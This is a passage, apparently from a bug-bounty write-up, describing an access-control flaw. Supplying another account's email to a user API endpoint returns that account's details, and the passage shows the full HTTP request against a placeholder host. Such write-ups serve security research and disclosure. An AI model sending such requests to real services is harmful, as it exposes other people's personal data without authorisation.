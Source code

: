 <img src="Signed_up_user.png">
<figcaption>Fig 2. Signed_up_user.</figcaption>
</figure>

Now i just have to pass the **User2** account email Id in the email verify request and it will provide all the details that i want to do the manipulation.

```http
GET /api/v1/user?email=nj+1@tvhsecurity.com HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
```
